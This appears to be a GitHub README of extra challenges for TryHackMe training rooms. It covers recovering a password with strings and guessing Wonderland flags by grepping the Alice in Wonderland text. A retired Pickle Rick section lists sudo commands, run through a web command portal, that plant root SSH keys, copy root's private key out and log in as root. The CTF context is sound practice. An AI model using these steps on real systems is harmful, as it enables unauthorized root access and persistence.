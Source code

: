 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code>strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code>ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code>cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code>grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code>grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code>grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code>sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
## Retired Challenges
This is a collection of extra tasks for TryHackMe Rooms that have been patched since they were discovered, and are no longer available.

#### Pickle Rick
A previous version of the machine allowed full sudo in the web command portal. The challenge was to get a root login, which was not a necessary task for completing the Room as intended. The method had an extra step, because it was not possible to `cd` out of /var/www/html. Generating ssh keys in the place required by /etc/ssh/sshd_cofig involved adding an argument to `ssh-keygen`:<br>
extra credit - get shell on box<br>
all work done through web command portal<br>
<br>
sudo mkdir /root/.ssh<br>
sudo ssh-keygen -f /root/.ssh/id_rsa -t rsa -b 2048<br>
sudo cp /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys<br>
sudo less /root/.ssh/id_rsa (copy/paste to text editor and save local)<br>
<br>
on local: `chmod 600 id_rsa`<br>
login as: `ssh -i id_rsa root@$target`<br>
<br>
